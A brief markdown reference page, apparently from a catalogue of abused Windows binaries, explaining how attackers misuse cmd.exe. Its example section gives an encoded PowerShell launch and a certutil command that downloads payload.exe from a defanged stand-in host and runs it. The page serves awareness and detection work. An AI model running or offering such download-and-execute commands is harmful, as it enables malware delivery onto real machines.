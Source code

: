 # cmd.exe
## What is it?
*cmd.exe is the Windows Command Prompt.*

## How to abuse it
*Executes malicious scripts and commands.*

# Example Attacks
```
cmd.exe /c "powershell -enc <base64>"

cmd.exe /q /c "certutil -urlcache -f http://malicious[.]site/payload.exe C:\temp\payload.exe & start C:\temp\payload.exe"
```
